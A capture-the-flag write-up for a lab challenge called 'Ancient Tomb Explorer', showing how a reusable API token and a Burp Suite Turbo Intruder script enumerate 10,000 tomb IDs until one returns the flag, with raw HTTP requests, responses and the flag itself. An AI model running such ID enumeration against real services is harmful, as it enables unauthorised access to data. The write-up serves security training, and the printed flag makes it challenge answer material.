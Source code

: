 # Intro
![](../img/Ancient_Tomb_Explorer.png)


# Information gathering
Start by accessing the application. Here a small introduction is displayed telling the user that a "ancient" token is needed to open the tombs and the key to escape (guessing the flag) is in one of the tombs. This is also shown when clicking a tomb button, a error message is displayed telling the user a key is needed to open the tomb.  
![](../img/Ancient_Tomb_Explorer_App.png)
![](../img/Ancient_Tomb_App_Click_Tomb.png)
There are 10000 tomb buttons in the app. And clicking through some random buttons the same error message is shown to the user. 


Start by looking through the source code to see if any hints of how this "token"  could be obtained. And this JavaScript function could be found in the sources for the application.
```javascript
// Function to get a new token from the API
    function getNewToken() {
        fetch('/api/token', {
            method: 'POST',
        })
        .then(response => response.json())
        .then(data => {
            if (data.token) {
                currentToken = data.token;
                tokenInput.value = currentToken;
                localStorage.setItem('tombToken', currentToken);
                showResponse({ message: 'New token received', token: currentToken });
            } else {
                showResponse({ error: 'Failed to get token', details: data });
            }
        })
        .catch(error => {
            showResponse({ error: 'Failed to get token', details: error.message });
        });
    }
```
The comment and function tells us this is used to get a new token from the API. This tells that to get a token:
- The endpoint to use ```/api/token```.
- The request should be a ```POST``` request.
- No special body or headers is needed in the request.

Another function is also found in the sources. This function is tells how to "explore a tomb". 
```javascript
// Function to explore a tomb by ID
    function exploreTomb(tombId) {
        // Highlight the selected tomb with null check
        document.querySelectorAll('.tomb-cell.clicked').forEach(cell => {
            cell.classList.remove('clicked');
        });
        
        const selectedCell = document.querySelector(`.tomb-cell[data-id="${tombId}"]`);
        if (selectedCell) {
            selectedCell.classList.add('clicked');
        } else {
            console.error(`Tomb cell with ID ${tombId} not found`);
        }
        
        // Make API request to get tomb content
        fetch(`/api/tomb/${tombId}?token=${encodeURIComponent(currentToken)}`)
        .then(response => {
            if (!response.ok) {
                throw new Error(`HTTP error! Status: ${response.status}`);
            }
            return response.json();
        })
        .then(data => {
            showResponse(data);
        })
        .catch(error => {
            showResponse({ error: 'Failed to explore tomb', details: error.message });
            console.error('API error:', error);
        });
    }
```
The ```fetch``` part tells how the request to explore a tomb should be formatted:
- The endpoint to use ```/api/tomb/${tombId}?token=${encodeURIComponent(currentToken)}```.
- The parameters ```tombId``` and ```currentToken``` is needed in the URI.
- The request should be a ```GET``` request (default for ```fetch``` is ```GET```).

So the plan is to get a token by making a ```POST``` request to ```/api/token``` to get a token to be use to open the tombs. The token is sent as the ```currentToken``` parameter when opening the tomb with a ```GET``` request to ```/api/tomb/${tombId}``` endpoint. The ```tombId``` is the number that is on the tomb-button, show in the request when clicking the button. Example: Clicking the tomb-button 311 generates this request.
```http
GET /api/tomb/311?token=none HTTP/1.1
Host: 134.122.88.8:5002
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
[...]
```

Testing the intended "flow" of the application:
Request:  
```http
```http
POST /api/token HTTP/1.1
Host: 134.122.88.8:5002
Accept-Language: en-GB,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: */*
Referer: http://134.122.88.8:5002/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```
Response:  
```http
HTTP/1.1 200 OK
Server: Werkzeug/3.1.3 Python/3.9.21
Date: Fri, 02 May 2025 13:50:43 GMT
Content-Type: application/json
Content-Length: 26
Connection: close

{"token":"key-174619384"}
```

Open a tomb request with the token:  
```http
GET /api/tomb/1?token=key-174619384 HTTP/1.1
Host: 134.122.88.8:5002
Accept-Language: en-GB,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: */*
Referer: http://134.122.88.8:5002/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

Response:
```http
HTTP/1.1 200 OK
Server: Werkzeug/3.1.3 Python/3.9.21
Date: Fri, 02 May 2025 13:51:02 GMT
Content-Type: application/json
Content-Length: 44
Connection: close

{"content":"Tomb 1 is empty!","tombId":"1"}
```

Testing another tomb with the same token:
```http
GET /api/tomb/123?token=key-174619384 HTTP/1.1
Host: 134.122.88.8:5002
Accept-Language: en-GB,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: */*
Referer: http://134.122.88.8:5002/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

Response:
```http
HTTP/1.1 200 OK
Server: Werkzeug/3.1.3 Python/3.9.21
Date: Fri, 02 May 2025 13:51:13 GMT
Content-Type: application/json
Content-Length: 48
Connection: close

{"content":"Tomb 123 is empty!","tombId":"123"}
```

This shows that the token is reusable, no new token is needed to open multiple tombs.
# Attack
To go through all 10000 tombs a tool like Turbo Intruder in BurpSuite could be used to automate the request, but first a token is needed. 

Using Turbo Intruder in BurpSuite. Using the ```examples/default.py``` as starting point the script loop through numbers from 1 to 10000 making a request replacing the ```%s``` parameter in the request with the current number in the loop. 
GET request:
```http
GET /api/tomb/%s?token=key-174619384 HTTP/1.1
Host: 134.122.88.8:5002
Accept-Language: en-GB,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: */*
Referer: http://134.122.88.8:5002/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```
Python script:
```python

def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,
                           requestsPerConnection=100,
                           pipeline=False,
                           engine=Engine.THREADED
                           )

    for x in range(1, 10001):
        engine.queue(target.req, x)


def handleResponse(req, interesting):
    print(req)
    table.add(req)
```

Running the script in Turbo Intruder.
One request in the list of results stands out from the others in length.
![](../img/Ancient_Tomb_Explorer_Turbo_Intruder_Results.png)

The tomb 3367 responds with the flag:
```http
GET /api/tomb/3367?token=key-174619384 HTTP/1.1
Host: 134.122.88.8:5002
Accept-Language: en-GB,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: */*
Referer: http://134.122.88.8:5002/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

Response:
```http
HTTP/1.1 200 OK
Server: Werkzeug/3.1.3 Python/3.9.21
Date: Fri, 02 May 2025 13:51:59 GMT
Content-Type: application/json
Content-Length: 61
Connection: close

{"content":"flag O24{Lar4_w0Uld_b3_PRouD!}","tombId":"3367"}
```
